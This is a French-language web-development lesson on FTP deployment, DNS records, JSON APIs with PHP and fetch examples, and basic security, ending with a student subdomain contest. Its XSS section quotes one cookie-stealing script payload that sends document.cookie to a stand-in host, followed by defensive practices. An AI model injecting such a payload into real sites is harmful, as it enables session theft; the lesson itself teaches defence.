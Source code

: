# Session 3 : Déploiement et concepts avancés

## Objectifs pédagogiques

- Mettre en ligne une application web  
- Travailler avec des services web et des données JSON  
- Comprendre les bases de la sécurité côté client et côté serveur

---

## 1. Déploiement web

### Transfert de fichiers par FTP

**FTP** (File Transfer Protocol) permet de transférer des fichiers depuis ton ordinateur vers un serveur web.

**Étapes :**

- Installer un client FTP comme **FileZilla**  
- Se connecter avec les identifiants fournis par l’hébergeur  
- Transférer les fichiers du projet dans le dossier `www` ou `public_html`  

> Exemple : transférer `index.html` pour qu’il soit visible sur le site.

### Gestion de domaine et configuration DNS

Un **nom de domaine** (ex : `monsite.fr`) pointe vers une adresse IP.

**Notions à connaître :**

- **Enregistrement A** : lie un domaine à une adresse IP  
- **Enregistrement CNAME** : redirige vers un autre nom de domaine  
- **Enregistrement MX** : gère les e-mails  

> Exemple : configurer `www.monsite.fr` pour qu’il affiche le site hébergé.

---

## 2. Introduction aux APIs JSON

### Qu’est-ce que JSON ?

**JSON** (JavaScript Object Notation) est un format léger pour représenter des données sous forme de texte.

```json
{
  "nom": "Alice",
  "age": 30,
  "email": "alice@example.com"
}
```

Chaque élément est une **paire clé/valeur**.

### Créer une API simple en PHP

```php
<?php
$data = ["nom" => "Alice", "age" => 30];
header('Content-Type: application/json');
echo json_encode($data);
?>
```

### Consommer une API

#### Étape 1 : Obtenir une clé API

Avant de pouvoir interroger l'API, vous devez obtenir une clé :

- Rendez-vous sur [https://thecatapi.com/signup](https://thecatapi.com/signup)  
- Inscrivez-vous gratuitement  
- Une clé API vous sera fournie, à utiliser dans les requêtes  

#### Avec JavaScript (`fetch`)

```js
fetch('https://api.thecatapi.com/v1/images/search', {
  headers: {
    'x-api-key': 'VOTRE_CLE_API'
  }
})
  .then(response => response.json())
  .then(data => {
    console.log(data);
    const img = document.createElement('img');
    img.src = data[0].url;
    document.body.appendChild(img);
  });
```

#### Avec PHP (`curl`)

```php
<?php
$curl = curl_init();

curl_setopt_array($curl, [
    CURLOPT_URL => "https://api.thecatapi.com/v1/images/search",
    CURLOPT_RETURNTRANSFER => true,
    CURLOPT_HTTPHEADER => [
        "x-api-key: VOTRE_CLE_API"
    ]
]);

$response = curl_exec($curl);
curl_close($curl);

$data = json_decode($response, true);
echo "<img src='" . $data[0]['url'] . "' />";
?>
```

---

## 3. Sécurité

### Attaque XSS (Cross-Site Scripting)

Une attaque **XSS** consiste à injecter du code JavaScript malveillant dans une application web vulnérable.

> Exemple réaliste :  
> Un utilisateur entre ce code dans un champ commentaire :
> ```html
> <script>document.location='https://badbadnotgood.com/voler-cookie?cookie=' + document.cookie;</script>
> ```

Ce script vole les cookies de session de l’utilisateur.

### Bonnes pratiques

- Utiliser `htmlspecialchars()` pour afficher des données utilisateur  
- Valider les entrées côté serveur  
- Éviter l’injection de balises HTML  
- Utiliser des tokens **CSRF** pour sécuriser les formulaires  

---

## Activité : Gagne ton sous-domaine !

À travers les projets des **sessions 1 et 2**, un ou une gagnante sera sélectionnée pour :

- Obtenir un **sous-domaine personnalisé** (ex : `monprojet.monsite.fr`)  
- Publier son projet sur un serveur **Gandi** ou **Hostinger**  
- Utiliser **FileZilla** pour le transfert FTP  

### Étapes de publication

**1. Préparer ton projet**

- Fichier `index.html` ou `index.php` à la racine  
- Dossiers organisés : `css/`, `js/`, `images/`, etc.  

**2. Installer FileZilla**

Téléchargement : [https://filezilla-project.org](https://filezilla-project.org)

**3. Connexion FTP**

Tu recevras :

- Adresse FTP (ex : `ftp.monsite.fr`)  
- Identifiant et mot de passe  
- Port : `21`  

**Configuration dans FileZilla :**

- Hôte : `ftp.monsite.fr`  
- Identifiant : ton login  
- Mot de passe : ton mot de passe FTP  
- Port : `21`  

Transfère tes fichiers dans le dossier `www` ou `public_html`.

### Ton site est en ligne

Accès à ton projet :  
`https://tonnom.monsite.fr`

### Pourquoi participer ?

- Créer ton premier **portfolio web**  
- Expérimenter une vraie mise en ligne  
- Partager ton travail avec ton entourage ou de futurs employeurs  
